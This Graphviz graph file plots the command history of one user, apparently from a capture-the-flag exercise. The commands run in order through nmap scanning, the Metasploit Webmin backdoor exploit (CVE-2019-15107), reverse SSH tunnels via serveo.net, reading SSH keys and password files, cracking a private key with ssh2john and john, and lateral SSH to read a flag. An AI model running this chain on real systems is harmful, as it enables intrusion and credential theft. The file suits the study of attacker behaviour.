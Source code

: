 // creating graph for user: 77
digraph {
	node [shape=box]
	0 [label="ip a U"]
	1 [label="ping .. U"]
	2 [label="ping 8.8.8.8 U"]
	3 [label="namp 172.18.1.5 -A U"]
	4 [label="nmap 172.18.1.5 -A A0 "]
	5 [label="systemctl start ssh U"]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net U"]
	7 [label="curl 172.18.1.5:10000 U"]
	8 [label="ssh root@127.0.0.1 U"]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net U"]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	11 [label="vim /etc/ssh/sshd_config U"]
	12 [label="systemctl restart ssh U"]
	13 [label="vim U"]
	14 [label="ll U"]
	15 [label="nmap -p 10000 -A 172.18.1.5 A0 "]
	16 [label="msfconsole U"]
	17 [label="search CVE-2019-15107 U"]
	18 [label="use exploit/unix/webapp/webmin_backdoor U"]
	19 [label="show U"]
	20 [label="show options U"]
	21 [label="set LHOST 172.18.1.5 U"]
	22 [label="show options U"]
	23 [label="back U"]
	24 [label="use exploit/unix/webapp/webmin_backdoor U"]
	25 [label="set RHOSTS 172.18.1.5 U"]
	26 [label="run U"]
	27 [label="set LPORT 6666 U"]
	28 [label="run U"]
	29 [label="set LHOST 0.0.0.0 U"]
	30 [label="run U"]
	31 [label="sessions -i U"]
	32 [label="sessions U"]
	33 [label="ip a U"]
	34 [label="show options U"]
	35 [label="set LHOST 192.168.130.188 U"]
	36 [label="set SRVHOST 192.168.130.188 U"]
	37 [label="run U"]
	38 [label="msfconsole U"]
	39 [label="use exploit/unix/webapp/webmin_backdoor U"]
	40 [label="show options U"]
	41 [label="set RHOSTS 172.18.1.5 U"]
	42 [label="run U"]
	43 [label="ip r U"]
	44 [label="set LHOST 10.1.135.83 U"]
	45 [label="run U"]
	46 [label="nc -l -p 7777 U"]
	47 [label="ll U"]
	48 [label="ls U"]
	49 [label="cd/ U"]
	50 [label="cd / U"]
	51 [label="ls U"]
	52 [label="cd /root U"]
	53 [label="ls U"]
	54 [label="ls -hlA U"]
	55 [label="ll U"]
	56 [label="ls U"]
	57 [label="ls .ssh U"]
	58 [label="cat .ssh/autorized_keys U"]
	59 [label="cat .ssh/authorized_keys U"]
	60 [label="history U"]
	61 [label="ls U"]
	62 [label="ip a U"]
	63 [label="ps aux U"]
	64 [label="ps aux U"]
	65 [label="w U"]
	66 [label="ps aux U"]
	67 [label="ps aux  U"]
	68 [label="ping 10.1.135.83 U"]
	69 [label="s U"]
	70 [label="s U"]
	71 [label="s U"]
	72 [label="s U"]
	73 [label="s U"]
	74 [label="s U"]
	75 [label="s U"]
	76 [label="s U"]
	77 [label="sss U"]
	78 [label="ls U"]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	80 [label="ls U"]
	81 [label="ip a U"]
	82 [label="nmap U"]
	83 [label="cd /root U"]
	84 [label="ls U"]
	85 [label="apt udpate U"]
	86 [label="apt update U"]
	87 [label="apt install nmap U"]
	88 [label="cat /etc/crontab] U"]
	89 [label="cat /etc/crontab U"]
	90 [label="cat /etc/cron.*/* U"]
	91 [label="cd / U"]
	92 [label="cd /etc U"]
	93 [label="ls -hlA U"]
	94 [label="ls -hlA cron* U"]
	95 [label="crontab -l U"]
	96 [label="cat /etc/passwd U"]
	97 [label="cd /home U"]
	98 [label="ls U"]
	99 [label="ls -hlA * U"]
	100 [label="cd eve U"]
	101 [label="ls -hlA U"]
	102 [label="ls -hlA .ssh U"]
	103 [label="cat .ssh/* U"]
	104 [label="ls U"]
	105 [label="ls -hlA U"]
	106 [label="cd debian U"]
	107 [label="cd ../debian U"]
	108 [label="ls -hlA U"]
	109 [label="ls -hlA .ssh U"]
	110 [label="cat .ssh/authorized_keys U"]
	111 [label="cd .ansible U"]
	112 [label="ls U"]
	113 [label="ls -hlA U"]
	114 [label="cd tmp U"]
	115 [label="ls -hlA U"]
	116 [label="cd .. U"]
	117 [label="ls -hlA U"]
	118 [label="cd .. U"]
	119 [label="ls -hlA U"]
	120 [label="cat * U"]
	121 [label="cat .* U"]
	122 [label="ls -hlA U"]
	123 [label="cd .. U"]
	124 [label="ls -hlA U"]
	125 [label="ls -hlA * U"]
	126 [label="cd eve U"]
	127 [label="cat .bash_history U"]
	128 [label="ls -hlA U"]
	129 [label="nmap U"]
	130 [label="ls -hlA U"]
	131 [label="cat .bash_history U"]
	132 [label="su eve U"]
	133 [label="ls -hlA U"]
	134 [label="ssh eve@10.1.17.4 U"]
	135 [label="exit U"]
	136 [label="ls U"]
	137 [label="ls -hlA U"]
	138 [label="cp .ssh/* /root/.ssh/ U"]
	139 [label="cd U"]
	140 [label="ls -hlA .ssh U"]
	141 [label="cd /home/eve U"]
	142 [label="ls -hlA U"]
	143 [label="cat .bash_history U"]
	144 [label="ls -hlA U"]
	145 [label="ls -hlA /tmp U"]
	146 [label="alias ll='ls -hlA' U"]
	147 [label="ll U"]
	148 [label="cd .. U"]
	149 [label="ll U"]
	150 [label="ll * U"]
	151 [label="cd .. U"]
	152 [label="ll U"]
	153 [label="ll root U"]
	154 [label="cat root/.bash_history U"]
	155 [label="ll U"]
	156 [label="cd /var/ U"]
	157 [label="ll U"]
	158 [label="cd webmin U"]
	159 [label="ll U"]
	160 [label="cd .. U"]
	161 [label="cd .. U"]
	162 [label="ll U"]
	163 [label="ll media U"]
	164 [label="ll opt U"]
	165 [label="ll srv U"]
	166 [label="cd var U"]
	167 [label="ll U"]
	168 [label="cd log U"]
	169 [label="ll U"]
	170 [label="cat syslog U"]
	171 [label="ll U"]
	172 [label="zcat syslog.1 U"]
	173 [label="cat syslog.1 U"]
	174 [label="cd /etc/ansible U"]
	175 [label="cd /etc U"]
	176 [label="ll U"]
	177 [label="ll ssh U"]
	178 [label="ll U"]
	179 [label="cat sudoers U"]
	180 [label="cd U"]
	181 [label="ll U"]
	182 [label="ll U"]
	183 [label="alias ll='ls -hlA' U"]
	184 [label="ll U"]
	185 [label="ll U"]
	186 [label="cd U"]
	187 [label="ll U"]
	188 [label="cd .ssh U"]
	189 [label="ll U"]
	190 [label="cat id_rsa U"]
	191 [label="ll U"]
	192 [label="alias ll='ls -hlA' U"]
	193 [label="ll U"]
	194 [label="cd Desktop/ U"]
	195 [label="ll U"]
	196 [label="vim id_rsa U"]
	197 [label="gpg2john id_rsa U"]
	198 [label="apt install ssh2john U"]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py U"]
	200 [label="chmod +x ssh2john.py U"]
	201 [label="./ssh2john.py id_rsa U"]
	202 [label="./ssh2john.py id_rsa > x U"]
	203 [label="ll U"]
	204 [label="ll /usr/share/wordlists/rockyou.txt U"]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x U"]
	206 [label="ll U"]
	207 [label="ll U"]
	208 [label="cd .. U"]
	209 [label="cat /home/eve/.bash_history U"]
	210 [label="ssh eve@10.1.17.4 U"]
	211 [label="ls -hlA U"]
	212 [label="alias ll='ls -hlA' U"]
	213 [label="cd /tmp U"]
	214 [label="ll U"]
	215 [label="ll U"]
	216 [label="cd U"]
	217 [label="history U"]
	218 [label="cat /home/eve/.bash_history U"]
	219 [label="ssh eve@10.1.17.4 U"]
	220 [label="alias ll='ls -hlA' U"]
	221 [label="ll U"]
	222 [label="cd top-secret U"]
	223 [label="ll U"]
	224 [label="cat flag.txt A8 M8 "]
	225 [label="ll U"]
	226 [label="cd .. U"]
	227 [label="ll U"]
	228 [label="uname -a U"]
	229 [label="sudo -l U"]
	230 [label="ll U"]
	231 [label="cat /etc/passwd U"]
	232 [label="w U"]
	233 [label="ll U"]
	234 [label="ll top-secret/ U"]
	235 [label="cat top-secret/flag.txt U"]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net U"]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	239 [label="ll U"]
	240 [label="cd / U"]
	241 [label="ll U"]
	242 [label="w U"]
	243 [label="ll opt U"]
	244 [label="ll srv/ U"]
	245 [label="cat /etc/passwd U"]
	246 [label="cat /etc/cron* U"]
	247 [label="ll /tmp/cron* U"]
	248 [label="ll /etc/cron* U"]
	249 [label="ll U"]
	250 [label="ip a U"]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	252 [label="ll U"]
	253 [label="uname -a U"]
	254 [label="cat /etc/api/sources.list U"]
	255 [label="cat /etc/apt/sources.list U"]
	256 [label="ll U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	rankdir=LR
}
